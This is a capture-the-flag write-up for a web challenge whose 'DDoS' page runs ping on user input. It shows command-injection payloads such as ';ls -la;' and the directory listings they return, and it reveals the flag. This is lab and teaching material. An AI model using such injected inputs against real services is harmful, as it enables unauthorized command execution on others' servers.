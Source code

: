 # Dédé-OS v1.0

### Description

Serveur de déni de service en masse pour les 1337 h4xorz. Essayez de prouver au propriétaire que c'est de la merde. Lire le fichier contenant le flag.

### Solution

On the page, we have an text input and a button "attack".
The site is "supposed" to DDOS the adress we put into.

If we put an address it returns
> "Target reached !".

Obviously, we have to try command injections.

For that, I have referred to this cheat sheet : https://github.com/payloadbox/command-injection-payload-list

As the command behind seems to be `ping <address>`, if we put a `;` we will be able to execute another command. We can also us `||` because if a command is not working it will execute the one after.

```bash
$;ls -la;

Result from attack :

total 20
dr-xr-xr-x    1 root     root          4096 Nov 28 18:35 .
drwxr-xr-x    1 root     root          4096 Dec  3 14:44 ..
-r-xr-xr-x    1 root     root          1169 Nov 28 02:11 index.php
dr-xr-xr-x    1 root     root          4096 Nov 28 02:11 secret
-r-xr-xr-x    1 root     root           778 Nov 28 02:11 style.css

```
That's it ! Now we know we can execute commands.

After exploring the folder the flag was hidden in the following path :

```bash
$ ;ls -la secret/the/flag/is/here;

Result from attack :

total 12
dr-xr-xr-x    1 root     root          4096 Nov 28 02:11 .
dr-xr-xr-x    1 root     root          4096 Nov 28 02:11 ..
-r-xr-xr-x    1 root     root            25 Nov 28 02:11 .flag
```

Flag : `H2G2{y3aH_b4sH_yoU_knOW}`
